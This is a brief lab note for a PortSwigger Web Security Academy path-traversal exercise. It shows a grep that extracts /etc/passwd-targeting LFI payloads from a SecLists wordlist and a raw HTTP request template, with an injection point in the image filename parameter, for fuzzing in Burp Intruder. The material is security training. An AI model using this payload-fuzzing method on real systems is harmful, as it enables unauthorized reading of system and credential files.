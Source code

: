 https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

```bash
grep passwd /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt >  /tmp/asd.txt
```

Load into Burp's Intruder:

```http
GET /image?filename={HERE} HTTP/2
Host: 0acb007803bab8d1806c76f100d30069.web-security-academy.net
Cookie: session=RirU5TGBf8501LQy2cO9guFVsNuqb1qO
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0acb007803bab8d1806c76f100d30069.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: i
```

![](_attachment/Pasted%20image%2020250404143738.png)


